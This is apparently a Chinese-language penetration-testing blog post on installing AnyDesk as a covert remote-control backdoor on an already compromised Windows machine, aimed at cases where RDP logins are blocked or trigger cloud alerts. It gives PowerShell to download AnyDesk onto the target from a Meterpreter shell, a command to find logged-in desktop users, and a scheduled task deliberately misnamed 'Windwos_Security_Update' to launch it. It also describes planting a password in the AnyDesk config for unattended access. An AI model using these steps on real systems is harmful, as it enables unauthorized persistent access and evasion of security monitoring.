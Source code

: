 # 使用anydesk做远控


> anydesk是类似teamviewer的远程管理软件，但是他不用安装且体积小



### 场景举例

- 有云锁，护卫神等禁止3389登录时
- 类似阿里云这种，登录3389会报警
- 连接内网中可以出网的windows机器



### 注意事项

- 启动anydesk的权限需要桌面用户权限，比如，IIS做中间件的环境中，拿到了webshell一般都
  是没有桌面用户权限的，如果启动anydesk不会成功
- 启动anydesk时桌面不能被注销
- 有可能连接上去是黑屏，这个是因为该桌面用户退出远程桌面但没有注销，此时，除非能用
  winlogon启动anydesk，否则没法使用屏幕





### 使用方法

1. 习惯性的使用https://www.virustotal.com/gui扫描一下

2. 假设获取到了目标系统的一个msf的shell

   ```bash
   # 下载anydesk到一个公共目录下
   (New-Object System.Net.WebClient).DownloadFile("https://download.anydesk.com/AnyDesk.exe?_ga=2.176752485.1141763109.1599703967-925913843.1599703967","C:\Users\Public\Desktop\anydesk.exe")
   
   # 确定有哪些用户正在使用桌面???
   (((Get-WmiObject -Class Win32_Process -Filter 'Name="explorer.exe"').GetOwner().))
   
   # 启动一个计划任务，启动的用户为上个步骤选中的用户???
   schtasks /Create /TN Windwos_Security_Update /SC monthly /tr "c:\......"
   
   # 先执行一次计划任务，生成配置文件
   schtasks /run /tn Windwos_Security_Update
   
   # 等待几秒，等anydesk成功连接到网络，再把anydesk进程杀掉，dir看用户下面是否生成配置文件，然后再service.conf里面的添加密码(AnyDeskGetAccess)
   
   
   # 查看anydeskID并启动anydesk
   
   
   # 不需要到目标机器上点击接受，输入密码即可
   
   
   # 分享一个高权限webshell下可以使用的powershell脚本
   
   ```

   <img src="http://image.xpshuai.cn/image-20200910104429278.png" ></img>

   

















































---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/%E4%BD%BF%E7%94%A8anydesk%E5%81%9A%E8%BF%9C%E6%8E%A7/  

